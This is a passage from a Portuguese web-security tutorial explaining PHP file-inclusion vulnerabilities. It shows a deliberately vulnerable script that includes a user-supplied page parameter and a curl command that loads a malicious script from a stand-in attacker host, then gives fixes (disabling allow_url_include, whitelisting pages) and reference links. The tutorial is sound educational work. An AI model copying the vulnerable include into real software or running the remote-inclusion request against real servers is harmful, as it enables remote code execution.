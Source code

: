     ::php
    <?php
    # php-injection.php
    
    $page = $_GET['page'];

    include('topo.php');
    include('menu.php');

    include($page);
    
    ?>

Logo:

    ::bash
    $ curl http://localhost/php-injection.php?page=novidades.php

No caso acima, estamos incluindo o arquivo **novidades.php** e
automaticamente exibindo o seu conteúdo. Podemos navegar por outras
áreas do *website*, por exemplo, **page=contato.php** ou
**page=institucional.php**. Mas, e se informarmos
**page=php-injection.php**?

Caímos num *looping* infinito!

E, infelizmente, esse é o menor dos nossos problemas. O *PHP*, quando
configurado com a opção **allow\_url\_include** como **TRUE**, é capaz
de importar arquivos de outros *hosts*. Logo, o atacante pode ter um
*script* malicioso hospedado em seu servidor, e passar o caminho dele
para a aplicação acima. A aplicação incluirá e interpretará o *PHP* que
estiver neste *script*:

    ::bash
    $ curl http://localhost/php-injection.php?page=http://sitedoatacante.com.br/meu-script-malicioso.php.txt

Pronto! Temos código *PHP* de outra pessoa executando em nosso servidor.

Para resolver este problema, configure a opção **allow\_url\_include**
em seu **php.ini** como **FALSE**. Outro passo importante é, sempre que
for importar algum arquivo que dependa de informações vindas do usuário,
verifique o conteúdo desta informação. Exemplo:

    ::php
    switch($page) {
        case 'novidades':
            include('novidades.php');
            break;
        case 'contato':
            include('contato.php');
            break;
        case 'institucional':
            include('institucional.php');
            break;
        default:
            include('404.php');
    }


  [*Web*]: {tag}web
  [*Django*]: {tag}django
  [*Codeigniter*]: {tag}codeigniter
  [*PHP*]: {tag}php
  [*Javascript*]: {tag}javascript
  [*Forms*]: https://docs.djangoproject.com/en/dev/topics/forms/
  [*Form Validation Class*]: http://codeigniter.com/user_guide/libraries/form_validation.html
  [biblioteca *Validate*]: http://pear.php.net/manual/en/package.validate.validate.intro.php
  [*SEO*]: http://pt.wikipedia.org/wiki/Otimiza%C3%A7%C3%A3o_para_motores_de_busca
  [*Nginx*]: {tag}nginx
  [Veja um exemplo de uso]: http://stackoverflow.com/questions/812571/how-to-create-friendly-url-in-php
  [*Rich Text Editors*]: http://www.webdesignerdepot.com/2008/12/20-excellent-free-rich-text-editors/
  [*PDO*]: http://php.net/pdo
  [*Django* utiliza *ORM*]: https://docs.djangoproject.com/en/1.4/topics/db/queries/
  [*Codeigniter* tem a *Active Record Class*]: http://codeigniter.com/user_guide/database/active_record.html
  [*MD5*]: http://pt.wikipedia.org/wiki/MD5
  [*SHA1*]: http://pt.wikipedia.org/wiki/SHA1
  [recomendam o uso de algoritmos mais sofisticados]: https://docs.djangoproject.com/en/dev/releases/1.4/#improved-password-hashing
  [*PBKDF2*]: http://en.wikipedia.org/wiki/PBKDF2
  [Engenharia Social]: http://pt.wikipedia.org/wiki/Engenharia_social_(seguran%C3%A7a_da_informa%C3%A7%C3%A3o)
  [*The Open Web Application Security Project*]: https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)
  [Sessões]: {filename}/entendendo-os-cookies-e-sessoes.md
  [um *post* interessante para o *PHP-SP*]: http://phpsp.org.br/2011/07/protegendo-seu-sistema-contra-ataques-csrf/
  [*Caugh in a Web: Validating an integer in PHP*]: http://www.dinke.net/blog/en/2011/10/20/validating-an-integer-with-php/
  [*Codeigniter User Guide: Active Record Class*]: http://codeigniter.com/user_guide/database/active_record.html
  [*Codeigniter User Guide: Security*]: http://codeigniter.com/user_guide/general/security.html
  [*Django Documentation: Making queries*]: https://docs.djangoproject.com/en/1.4/topics/db/queries/
  [*Django Documentation: Security in Django*]: https://docs.djangoproject.com/en/dev/topics/security/
  [Invasão.com.br: *PHP Injection* – O fim das dúvidas]: http://www.invasao.com.br/2008/03/18/php-injection-o-fim-das-duvidas/
  [*PHP Documentation: MySQL Melhorada*]: http://www.php.net/manual/pt_BR/book.mysqli.php
  [*PHP Documentation: PDO – PHP Data Objects*]: http://php.net/pdo
  [*PHP SP*: Protegendo o seu sistema contra ataques *CSRF*]: http://phpsp.org.br/2011/07/protegendo-seu-sistema-contra-ataques-csrf/
  [*Site Point: Top 7 PHP Security Blunders Article*]: http://www.sitepoint.com/php-security-blunders/
  [*Stack Overflow: Best way to stop SQL injection in PHP*]: http://stackoverflow.com/questions/60174/best-way-to-stop-sql-injection-in-php
  [*The Open Web Application Security Project: Cross-Site Request Forgery*]: https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)
  [*Wikipedia: Code Injection*]: http://en.wikipedia.org/wiki/Code_injection
  [*Wikipedia*: Injeção de *SQL*]: http://pt.wikipedia.org/wiki/Inje%C3%A7%C3%A3o_de_SQL